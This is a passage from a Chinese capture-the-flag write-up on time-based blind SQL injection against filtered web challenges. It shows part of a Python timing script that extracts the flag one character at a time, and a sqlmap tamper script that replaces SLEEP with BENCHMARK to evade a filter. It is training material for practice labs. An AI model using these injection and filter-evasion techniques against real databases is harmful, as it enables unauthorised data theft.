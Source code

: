 ```cobol
        end_time=time.time()
        subtime=end_time-start_time
        # print(subtime)
        if subtime > 0.4:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
        if(chr(mid)==" "):
            break
    flag+=chr(mid)
    print(flag)



```

修改tamper实现注入

```python
import base64
 
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    pass
def tamper(payload,**kwargs):
    payload = payload.replace("SLEEP(5)", "BENCHMARK(1000000,SHA1('test'))")
    return payload
```

然后sqlmap就可以实现  但是需要尝试很多次 因为一次会显示注入失败 就是返回不了值 我也不知道为啥，但是确实我这边多试几次就可以了 这里如果执行完老是去数据中取数值

我们使用

```sql
--fresh-queries
```

让sqlmap重新注入  然后多尝试几次就行了

我第一次只出来了id 其他啥都没有



<img src="https://i-blog.csdnimg.cn/blog_migrate/08e627cd0f6a51dc373ed7707673e8a1.png" alt="" style="max-height:123px; box-sizing:content-box;" />


出现这个 就ok了 说明存在3个字段

## web218  过滤sleep  benchmark

赶尽杀绝啊
